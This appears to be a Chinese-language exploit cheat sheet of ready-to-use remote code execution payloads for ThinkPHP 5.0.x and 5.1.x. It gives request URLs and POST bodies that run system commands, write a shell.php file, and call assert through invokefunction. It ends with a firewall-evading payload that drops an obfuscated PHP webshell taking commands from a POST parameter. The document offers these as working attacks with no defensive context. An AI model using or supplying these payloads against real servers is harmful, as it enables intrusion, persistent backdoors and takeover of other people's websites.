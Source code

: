 ThinkPHP 5.0.0~5.0.23 RCE 漏洞
payload-1：
http://127.0.0.1/public/index.php?s=captcha

POST:
_method=__construct&filter[]=system&method=get&get[]=whoami

payload-2：
http://127.0.0.1/public/index.php?s=captcha

POST:
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami

ThinkPHP 5.1 RCE

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
执行之后会在根目录下写入shell.php ，内容是输出phpinfo();


5.1.x php版本 > 5.5

http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert
http://127.0.0.1/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>


5.0.x php版本>=5.4
http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()


de 

过狗的：
http://127.0.0.1/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@file_put_contents(base64_decode(MTI1ODQucGhw),base64_decode(b2suPD9waHAgJHsiYHt7eyJeIj88Pi8ifVthXSgkX1BPU1RbeF0pOzs7))
文件名：12584.php，马儿内容为：ok.<?php ${"`{{{"^"?<>/"}[a]($_POST[x]);;;


